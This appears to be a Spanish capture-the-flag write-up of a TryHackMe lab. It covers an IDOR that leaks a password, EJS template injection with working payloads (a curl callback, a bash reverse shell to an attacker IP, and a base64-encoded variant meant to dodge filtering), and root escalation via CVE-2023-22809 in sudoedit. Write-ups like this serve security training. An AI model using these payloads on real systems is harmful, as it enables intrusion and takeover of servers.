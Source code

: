 *****

![Imagen1](attachments/Pasted%20image%2020250203213856.png) 

#easy

******

Al unirnos al room de THM nos dan un username y password que será importantes tenerlos en cuenta:

~~~bash
username: Olivia Cortez
password: olivi8
~~~


Realizamos un escaneo con **Nmap** para poder observar los servicios que usan:

~~~bash
sudo nmap -sS --min-rate 5000 --open -vv -p- -n -Pn whiterose.thm
~~~

![imagen2](<attachments/Pasted%20image%2020250203214511.png>)

Como podemos ver, tienen el `22` y `80` abiertos. Al ingresar a la pagina web esta nos redirige a otra:

`cyprusbank.thm`

![image3](<attachments/Pasted%20image%2020250203214630.png>)

Pasamos a realizar un fuzzing de directorios con gobuster, pero no nos muestra nada interesante.

~~~bash
gobuster dir -u 'http://cyprusbank.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
~~~

Con ffuf realizamos fuzzing de subdominios y vemos que nos dan 2 subdominios:

`www.cyprusbank.thm` `admin.cyprusbank.thm`

~~~bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
~~~

![alt text](<attachments/Pasted%20image%2020250203215214.png>)

>[!note]
>`-fw` nos ayuda a descartar falsos positivos en el fuzzing


`www.cyprusbank.thm` no hay nada, sin embargo en `admin.cyprusbank.thm` nos muestra un login donde podemos intentar poner las credenciales del inicio.


![alt text](<attachments/Pasted%20image%2020250203215438.png>)

Al ingresar con la cuenta de Olivia podemos ver varias cosas interesantes y donde podemos encontrar una de las primeras flag del room.

![alt text](<attachments/Pasted%20image%2020250203220037.png>)

No podemos ingresar a settings, al parecer no tenemos privilegios.

![alt text](<attachments/Pasted%20image%2020250203220137.png>)

Pero en mensajes podemos ver algo que me resulto interesante:

![alt text](<attachments/Pasted%20image%2020250203220242.png>)

En la url podemos ver `c=5` y al cambiar los valores encontramos un IDOR que nos deja observar otros mensajes:

![alt text](<attachments/Pasted%20image%2020250203220405.png>)

Al explorarlo mas al fondo, damos con una conversación donde el user `Gayle Bev` escribe su password `p~]P@5!6;rs558:q`, y al ingresar con su sesión podemos obtener la primera flag.

*****

Una vez iniciado la sesión de `Gayle Bev` podemos ingresar al apartado de de settings de la web page. En esta podemos actualizar passwords de usuarios:

![alt text](<attachments/Pasted%20image%2020250203221334.png>)

Al revisar la solicitud con Burpsuite podemos modificar varios puntos para checar la posibilidad de XSS o SSTI. Interceptamos la request y omitimos el passwords y podemos ver que nos contesta con el siguiente error:

![alt text](attachments/image5.png)

En este mensaje podemos observar que están usando `.ejs` (Embedded JavaScript templates), lo que indica que el servidor renderiza plantillas dinámicas. Dado que `.ejs` es vulnerable a **Server-Side Template Injection (SSTI)** si no se maneja correctamente la entrada del usuario, podemos buscar payloads específicos para explotar este tipo de vulnerabilidad en `ejs` y evaluar si es posible ejecutar código en el servidor.

~~~javascript
%%1");process.mainModule.require('child_process').execSync('calc');//
~~~

https://github.com/mde/ejs/issues/720

Modificamos el payload para realizar un curl a nuestro Python server.

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.8.27.189:6666');//
~~~

![alt text](attachments/7.png)

![alt text](attachments/image8.png)

Con esto confirmamos que es un **SSTI**, ahora podemos intentar para explotar una RCE, para esto podemos crear un reverse Shell (https://www.revshells.com/):

![alt text](attachments/image9.png)

Modificamos nuestro payload para que ejecute la reverse:

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.8.27.189/6666 0>&1');//
~~~

Pero al parecer nos esta filtrando la request, entonces aquí podemos encodearlo en base64 para intentar pasarlo.

~~~js
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMjcuMTg5LzY2NjYgMDA+JjE= | base64 -d | bash"');//  
~~~

![alt text](attachments/image10.png)

![alt text](attachments/image11.png)

Listo, tenemos acceso a la maquina donde podemos encontrar la siguiente flag, pero antes podemos mandar a llamar una Shell interactiva con python:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

![alt text](attachments/image12.png)

******
Ahora para escalar privilegios podemos observar primero que podemos hacer con sudo:

~~~bash
sudo -l
~~~

Y aqui podemos ver algo que podemos explotar:

![alt text](attachments/image13.png)

Podemos checar la versión que usa `sudoedit` con `sudoedit -V` y podemos ver que usa la versión `1.9.12p1`

![alt text](attachments/image14.png)

Al investigar encontramos que existe un CVE para esta versión de `sudoedit`

~~~bash
CVE-2023-22809
~~~

Ahora con lo que encontramos acerca de esta CVE podemos cambiar la variable para que nos muestre la flag de root:

~~~bash
export EDITOR="vi -- /root/root.txt"
~~~

Ya solo queda ejecutar el comando que vimos al principio y aquí tendremos nuestra siguiente y ultima flag:

~~~bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
~~~


